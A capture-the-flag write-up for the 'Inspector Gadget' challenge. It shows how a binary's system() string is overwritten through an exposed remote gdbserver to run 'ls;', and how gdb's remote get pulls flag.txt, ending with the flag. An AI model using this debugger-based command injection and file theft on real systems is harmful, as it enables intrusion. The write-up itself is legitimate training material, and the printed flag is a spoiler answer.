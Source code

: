 **Name**: Inspector Gadget  
**Points**: 400  
**Instructions**: Exploit the vulnerable inspector-gadget service running at challenges.runesec.com:22417.  
**Hint**: And now you'll be telling stories of my return and they won't be false, and they won't be true but they'll be real  

## Exploration
- `$ strings inspector-gadget` doesn't reveal much.
- Running the binary: Prompts for input, then prints "Answer: LOL!!" and starts a `gdbserver`.
- `$ r2 inspector-gadget` reveals nothing that could lead us to the flag; however, the following 2 lines give us a *Christmas-came-early* moment:
> **0x080485b3**      68a4860408     push str.gdbserver_:65488_inspector_gadget ; str.gdbserver_:65488_inspector_gadget ; "gdbserver :65488 inspector-gadget" @ 0x80486a4  
> **0x080485b8**      e833feffff     **call sym.imp.system**         ;[9]  

- That's a system call. Maybe we can replace the system call to gdbserver with something else that can lead us closer to the flag.  
- We also connect to the service running on their server. Same as locally, we get prompted to give an input and then the `gdbserver` is started, on their server. We can connect to it.
```
$ gdb inspector-gadget
gdb > target remote ctf.challenges.com:65488
``` 
- Brainstorming. 
  - The flag must be somewhere on the remote server.
  - Maybe we can load a symbols table from an external file that resides on the server.
  - That system call that's available to us is too powerful to be ignored.
  - Maybe we can directly access files on the remote file system.

## Exploitation
Let's overwrite that system call from  
`gdbserver :65488 inspector-gadget`  
to something short and simple:  
`ls;`

The string `gdbserver :65488 inspector-gadget` is at memory location `0x80486a4`.

We can overwrite it like so:
```
gdb> set {int}0x80486a4 = 0x3B736C
gdb> continue
```  
*0x3B736C is the hex representation of `ls;`, reversed.*  

It works! On the opened session we have to their server it prints:
`flag.txt inspector-gadget` and one more file, but our eyes are staring at `flag.txt`. We must capture it.  

We start thinking about crafting a (short) system call to get the contents of `flag.txt`. `cat *;` maybe?  

Midway of thinking of byte sequences that would make the system call reveal the contents of `flag.txt`, we recall an interesting command for `gdb`:

```
gdb> remote get flag.txt flag.local
```

*Cue the drum roll*   

```
$ cat flag.local
flag{82ef8b2e007da38b9ce1547cd249f6bd}
```
